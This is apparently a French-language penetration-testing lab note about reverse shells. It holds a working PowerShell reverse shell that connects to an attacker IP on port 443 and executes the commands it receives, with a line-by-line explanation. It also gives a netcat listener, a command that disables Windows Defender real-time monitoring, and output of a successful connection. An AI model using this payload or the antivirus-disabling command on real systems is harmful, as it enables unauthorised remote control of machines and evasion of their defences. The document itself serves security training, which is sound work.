 # Reverse Shells

***

With a `reverse shell`, the attack box will have a listener running, and the target will need to initiate the connection.

<mark style="color:orange;">**Reverse Shell Example**</mark>

![image](https://academy.hackthebox.com/storage/modules/115/reverseshell.png)

[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)&#x20;

***

### <mark style="color:red;">Hands-on With A Simple Reverse Shell in Windows</mark>

<mark style="color:green;">**Server (**</mark><mark style="color:green;">**`attack box`**</mark><mark style="color:green;">**)**</mark>

```shell-session
sudo nc -lvnp 443

Listening on 0.0.0.0 443
```

{% hint style="danger" %}
Cette fois-ci, avec notre écouteur, nous le lions à un port commun (443), un port généralement utilisé pour les connexions HTTPS. Nous pouvons vouloir utiliser des ports communs comme celui-ci, car lorsque nous initions la connexion vers notre écouteur, nous voulons nous assurer qu'il ne soit pas bloqué en sortie par le pare-feu du système d'exploitation et au niveau du réseau. Il serait rare de voir une équipe de sécurité bloquer le port 443 en sortie, car de nombreuses applications et organisations dépendent de HTTPS pour accéder à divers sites web pendant la journée de travail.

Cela dit, un pare-feu capable d'inspection approfondie des paquets (Deep Packet Inspection) et de visibilité au niveau de la couche 7 pourrait être capable de détecter et d'arrêter un reverse shell sortant sur un port commun, car il examine le contenu des paquets réseau, et pas seulement l'adresse IP et le port.&#x20;
{% endhint %}

<mark style="color:green;">**Client (target)**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
# L'option `-nop` désactive la protection des politiques d'exécution (no profile)
# L'option `-c` indique que le reste de la commande est du code à exécuter
powershell -nop -c "
    # Création d'un objet TCPClient pour se connecter à l'adresse 10.10.14.158 sur le port 443
    $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158', 443);

    # Obtention du flux de données du client pour lire et écrire
    $stream = $client.GetStream();

    # Déclaration d'un tableau de bytes (octets) pour stocker les données reçues
    [byte[]]$bytes = 0..65535 | % { 0 };

    # Boucle pour lire les données envoyées par le flux tant qu'il y a des données (tant que $i est différent de 0)
    while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
        # Conversion des données reçues en chaîne de caractères ASCII
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);

        # Exécution du code reçu avec la commande `iex` et capture de la sortie (y compris les erreurs)
        $sendback = (iex $data 2>&1 | Out-String);

        # Ajout de l'invite de commande PowerShell avec le chemin courant à la sortie
        $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';

        # Conversion de la chaîne de sortie en tableau de bytes
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);

        # Envoi des données transformées au flux de sortie
        $stream.Write($sendbyte, 0, $sendbyte.Length);

        # Vidage du flux de sortie pour s'assurer que les données sont bien envoyées
        $stream.Flush();
    }

    # Fermeture de la connexion une fois la boucle terminée
    $client.Close();
"

```
{% endcode %}

{% hint style="warning" %}
**1. `-nop -c`**

* **`-nop`** : Cet argument désactive l'obfuscation du code PowerShell et ne précharge pas le profil utilisateur, rendant l'exécution plus légère et potentiellement moins détectable.
* **`-c`** : Abréviation de `-Command`. Il permet d'exécuter directement la chaîne de commande PowerShell suivante.

2\. **`$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158', 443)`**

* **`$client`** : Cette variable représente un objet TCPClient, qui est utilisé pour établir une connexion réseau TCP.
* **`New-Object System.Net.Sockets.TCPClient`** : Cette commande crée une nouvelle instance de la classe `TCPClient` pour ouvrir une connexion TCP.
* **`'10.10.14.158', 443`** : Ce sont l'adresse IP de l'attaquant (10.10.14.158) et le port (443) sur lesquels la machine compromise va se connecter.
* **But** : Cette ligne établit une connexion à la machine de l'attaquant.

3\. **`$stream = $client.GetStream()`**

* **`$stream`** : Cette variable représente le flux de données (stream) associé à la connexion TCP.
* **`$client.GetStream()`** : Cela obtient le flux réseau à partir de l'objet `$client`, permettant d'envoyer et recevoir des données via la connexion TCP.
* **But** : Le flux est l'endroit où les commandes et les réponses seront échangées entre la machine compromise et l'attaquant.

4\. **`[byte[]]$bytes = 0..65535|%{0}`**

* **`[byte[]]`** : Cela définit un tableau de type `byte[]` (un tableau d'octets) pour stocker les données qui seront lues depuis le flux réseau.
* **`0..65535`** : Cela génère une plage de nombres allant de 0 à 65535 (correspondant à la taille maximale d'une trame de données).
* **`%{0}`** : Pour chaque élément de cette plage, il remplit le tableau avec des zéros.
* **But** : Cette ligne initialise un tableau d'octets de taille 65536 pour recevoir les données à partir du flux.

5\. **`while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)`**

* **`$i = $stream.Read($bytes, 0, $bytes.Length)`** : Cette méthode lit les données depuis le flux réseau et les stocke dans le tableau `$bytes`. Elle renvoie le nombre d'octets lus, et cela est assigné à `$i`.
* **`while(... -ne 0)`** : Cette boucle `while` continue tant que le nombre d'octets lus n'est pas égal à 0. Si `$i` est 0, cela signifie que la connexion est terminée.
* **But** : Tant qu'il y a des données à lire depuis la connexion réseau, la boucle se répète.

6\. **`$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)`**

* **`New-Object -TypeName System.Text.ASCIIEncoding`** : Cela crée un nouvel objet pour l'encodage de texte en ASCII.
* **`.GetString($bytes, 0, $i)`** : Cette méthode convertit les octets lus en une chaîne de caractères ASCII, en prenant `$i` octets à partir de l'index 0.
* **But** : La donnée brute lue du flux réseau est convertie en texte compréhensible (ASCII), qui représente la commande envoyée par l'attaquant.

7\. **`$sendback = (iex $data 2>&1 | Out-String)`**

* **`iex $data`** : La commande `iex` exécute dynamiquement la chaîne de commande contenue dans `$data`. Cela permet d'exécuter les commandes envoyées par l'attaquant.
* **`2>&1`** : Cette redirection envoie les messages d'erreurs vers la sortie standard, ce qui permet de capturer les erreurs dans la réponse.
* **`| Out-String`** : Cela convertit la sortie en une chaîne de caractères.
* **But** : Cette ligne exécute la commande envoyée et capture la sortie (ou les erreurs) dans une variable `$sendback`.

8\. **`$sendback2 = $sendback + 'PS ' + (pwd).Path + '> '`**

* **`$sendback2`** : Cette variable combine la sortie de la commande exécutée avec une invite de commande de type PowerShell (`PS <path> >`), où `<path>` est le chemin actuel (`pwd` signifie "print working directory").
* **But** : Cela prépare une chaîne à envoyer de retour à l'attaquant, comprenant la sortie de la commande suivie de l'invite PowerShell, pour indiquer que le shell est prêt à recevoir une nouvelle commande.

9\. **`$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)`**

* **`[text.encoding]::ASCII`** : Cette syntaxe appelle l'encodage ASCII en utilisant .NET.
* **`.GetBytes($sendback2)`** : Cette méthode convertit la chaîne `$sendback2` en un tableau d'octets (byte array), pour que les données puissent être envoyées via le flux réseau.
* **But** : La sortie est convertie en octets pour être envoyée via la connexion TCP.

10\. **`$stream.Write($sendbyte, 0, $sendbyte.Length)`**

* **`$stream.Write`** : Cette méthode envoie les octets via le flux réseau vers l'attaquant.
* **But** : La sortie de la commande est envoyée à l'attaquant.

11\. **`$stream.Flush()`**

* **`$stream.Flush()`** : Cette méthode vide le flux, garantissant que toutes les données en attente sont envoyées immédiatement.
* **But** : S'assure que les octets écrits sont réellement envoyés sans délai.

12\. **`$client.Close()`**

* **`$client.Close()`** : Cette commande ferme la connexion TCP lorsque la boucle `while` se termine (c'est-à-dire que la connexion a été fermée par l'attaquant ou la machine cible).
* **But** : Terminer proprement la connexion une fois toutes les données échangées.
{% endhint %}

<mark style="color:green;">**Client (target)**</mark>

{% code fullWidth="true" %}
```cmd-session
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
{% endcode %}

* Windows Defender a bloqué l’exécution du code — c’est le comportement attendu et, du point de vue défensif, une bonne chose.
* Du point de vue offensif, la présence d’un antivirus complique l’accès à une machine distante.
* Pour des tests légitimes, il faut travailler dans un environnement de test autorisé ou coordonner avec l’équipe responsable plutôt que de désactiver les protections sur des systèmes en production.

<mark style="color:green;">**Disable AV**</mark>

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

<mark style="color:green;">**Server (attack box)**</mark>

```shell-session
sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```
